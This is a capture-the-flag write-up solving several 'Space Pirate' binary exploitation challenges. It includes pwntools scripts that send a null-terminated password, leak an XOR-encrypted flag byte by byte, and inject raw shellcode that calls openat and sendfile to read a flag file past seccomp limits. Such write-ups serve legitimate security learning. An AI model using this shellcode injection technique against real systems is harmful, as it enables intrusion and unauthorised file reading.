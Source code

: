 # Space Pirate: Entry Point

--> *You just need to press 2 and the program will output the flag, pretty boring*

* Or if you choose the hard way, you will need to overwrite some value to an address to get the flag.

# Space Pirate: Going Deeper

* In this challenge, the program will read your input and compare it with a password stored inside the program 
* If you type in the password the normal way, it will simply not work because your input will be appened with an endline character "\n" 

**--> The solution is simple append your input with a "\x00" then send it. Here is a script i wrote in python**

```python
from pwn import *
#p = process('./sp_going_deeper')
p = remote('157.245.33.77',32510)
p.sendlineafter(b'>> ',b'1')
p.sendlineafter(b': ',b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00')
print(p.recvall())

```

# Space Pirate: Vault Breaker

* A typical encryption scheme, the program will give us the encrypted flag (key ^ flag), so we need to use the **Generate new key** function to zero out the byte we need


```python
from pwn import *

flag = b''

for index in range(0,32):
	p = process('./vault-breaker')
	#p = remote('157.245.33.77',30337)
	p.sendlineafter(b'> ',b'1')
	p.sendlineafter(b': ',str(index).encode())
	p.sendlineafter(b'> ',b'2')
	r = b''
	while b'Master password for Vault:' not in r:	
		r = p.recvline()
	leak = r.split(b': ')[1]
	flag += chr(leak[index]).encode() # Flag[index] is leaked
	print("index = " + str(index),end='      ')
	print(flag.decode())
	print('-----------------------------------------------------------')
	if (flag.endswith(b'}')):
		break
print(f"Flag found: {flag}")
```

* While running this script on both local and remote machine, I encounterd unexpected crash several times. But if i re-ran it, it worked normally. So if you know whats wrong with my script, feel free to message me

# Space Pirate: Fleet Management

* If you disassemble the program, you will see there is a hidden input (9). Upon pressing 9 the program will read our input. With a bit knowledge in reversing, you will realize that the program will treat your input as a sequence of instrunctions and attempt to run it
* But there are restrictions, we can not call system('/bin/sh') because of the seccomp_rule, we are only allowed to execute openat and sendfile, but that's all we need.

```python

from pwn import *

p = remote('178.62.83.221',32008)

payload = b"\x6A\x00\x48\xBB\x66\x6C\x61\x67\x2E\x74\x78\x74\x53\x48\xBF\x9C\xFF\xFF\xFF\x00\x00\x00\x00\x48\x89\xE6\x48\x31\xD2\x48\xC7\xC0\x01\x01\x00\x00\x0F\x05\x48\x31\xFF\x40\xB7\x01\x48\x89\xC6\x4D\x31\xD2\x41\xB2\x1E\x48\x31\xC0\xB0\x28\x0F\x05"
      #  This is a piece of assembly code to invoke openat() and sendfile() which will print out the flag for us. 
      #  You can code it in assembly and then get the byte representation of it through some online assembler. Or you can craft your payload using pwn.shellcraft()
p.sendlineafter(b'do? ',b'9')
p.sendline(payload)
r = p.recvline()
print("Flag: ",r.decode())

```
